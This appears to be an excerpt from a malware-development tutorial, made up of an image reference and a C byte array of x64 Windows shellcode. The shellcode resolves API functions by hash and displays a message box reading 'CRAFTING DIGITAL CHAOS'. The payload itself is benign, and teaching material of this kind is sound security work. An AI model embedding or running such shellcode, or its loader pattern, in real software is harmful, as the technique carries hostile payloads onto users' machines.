 ![P1](/assets/images/malware-development/2-0.png)

```c
unsigned char buf[] = 
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
"\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
"\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
"\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
"\x61\x67\x65\x42\x6f\x78\x00";
```
